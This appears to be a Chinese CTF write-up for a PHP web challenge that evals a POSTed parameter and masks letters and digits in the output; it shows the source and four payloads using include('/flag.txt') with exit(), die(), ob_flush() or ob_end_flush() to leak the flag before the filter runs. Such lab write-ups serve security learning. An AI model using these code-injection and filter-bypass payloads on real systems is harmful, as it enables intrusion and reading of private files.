






利用上题的payload

```
c=include("/flag.txt");
```



字母被替换为了？


查看给出的index.php

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
    highlight_file(__FILE__);
}

?>

你要上天吗？
```


分析

post传入参数c

命令执行c

ob_get_contens()

ob_end_clean()

劫持输出缓冲区

替换缓冲区中的字母和小写字母为?


也就是我们要在劫持输出缓冲区之前就把缓冲区送出


### 第一种

利用exit()提前终止程序

```
c=include("/flag.txt");exit();
```




### 第二种

利用die()

```
c=include("/flag.txt");die();
```




### 第三种

利用ob_flush()

```
c=include("/flag.txt");ob_flush();
```




### 第四种

利用ob_end_flush()

```
c=include("/flag.txt");ob_end_flush();
```

